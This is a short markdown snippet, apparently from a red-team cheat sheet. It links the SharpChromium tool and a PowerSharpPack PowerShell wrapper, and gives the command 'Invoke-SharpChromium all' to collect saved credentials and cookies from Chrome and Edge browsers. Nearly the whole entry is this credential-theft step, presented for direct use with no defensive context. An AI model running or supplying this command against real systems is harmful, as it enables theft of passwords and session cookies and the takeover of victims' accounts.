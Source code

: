 ### Source
https://github.com/djhohnstein/SharpChromium  
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1  

### Collect credentials and cookies from chrome and edge browser
```
Invoke-SharpChromium all
```

